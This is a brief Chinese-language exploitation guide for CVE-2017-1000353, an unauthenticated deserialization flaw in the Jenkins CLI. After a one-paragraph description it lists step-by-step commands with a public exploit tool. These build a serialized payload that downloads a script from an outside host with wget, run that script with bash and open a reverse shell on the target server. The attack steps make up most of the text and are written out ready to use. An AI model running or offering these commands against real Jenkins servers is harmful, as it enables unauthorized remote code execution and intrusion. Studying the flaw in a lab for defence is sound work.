

# CVE-2017-1000353


## 一、漏洞描述

Jenkins 未授权远程代码执行漏洞, 允许攻击者将序列化的Java SignedObject对象传输给Jenkins CLI处理，反序列化ObjectInputStream作为Command对象，这将绕过基于黑名单的保护机制, 导致代码执行。

## 二、利用流程

1 对应环境为Jenkins远程代码执行漏洞(CVE-2017-1000353）



2 利用工具https://github.com/vulhub/CVE-2017-1000353

3 执行命令生成字节码文件，“ ”处填可反弹shell文件地址

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "wget 1.1.1.1/nc.py -P /tmp"
```

4 发送数据包，执行命令，使文件下载到服务器

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```


5 生成字节码文件，“ ”处填写要执行的脚本

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "/bin/bash /tmp/nc.py"
```

6 发送数据包，执行脚本

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

7 可反弹shell

